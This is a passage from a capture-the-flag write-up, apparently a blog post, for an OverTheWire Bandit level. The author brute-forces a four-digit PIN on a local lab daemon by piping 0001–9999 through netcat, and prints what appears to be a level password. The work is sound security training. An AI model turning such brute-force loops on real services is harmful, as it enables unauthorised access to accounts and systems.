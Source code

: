 <br />
<img src="{{ site.img_path }}/overthewirebandit/OTH_bandit_91.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">  
<br />

This level puts me to test, I must perform a brute force attack against a service on port 30002, first I make some tests to observe the behavior of the daemon.

```bash
nc 127.0.0.1 30002
```

<br />
<img src="{{ site.img_path }}/overthewirebandit/OTH_bandit_92.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">  
<br />

Now I try to create an online to generate the strings I need to send to the daemon and try to get the password.

```bash
for i in $(seq 0001 0005); do echo $i; done
for i in {0001 0005}; do echo $i; done
for i in {0001..0005}; do echo $i; done
for i in {0001..0005}; do echo VAfGXJ1PBS... $i; done
for i in {0001..9999}; do echo VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar $i; done | nc 127.0.0.1 30002
for i in {0001..9999}; do echo VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar $i; done | nc 127.0.0.1 30002 | grep -v Wrong
for i in {0001..9999}; do echo VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar $i; done | nc 127.0.0.1 30002 | grep -vE "Wrong|checker"
```

<br />
<img src="{{ site.img_path }}/overthewirebandit/OTH_bandit_93.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">  
<br />

I use `grep` to hide when the output corresponds to an incorrect password and I get the expected output

<br />
<img src="{{ site.img_path }}/overthewirebandit/OTH_bandit_94.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">  
<br />

With everything I have learned so far, the tasks are more complex but I am getting the necessary knowledge to accomplish them, now I advance to the next level as the user **`bandit25`**.

<br />
<img src="{{ site.img_path }}/overthewirebandit/OTH_bandit_95.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">  
<br />

## Level 25
-----------

<br />
<img src="{{ site.img_path }}/overthewirebandit/OTH_bandit_96.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">  
<br />
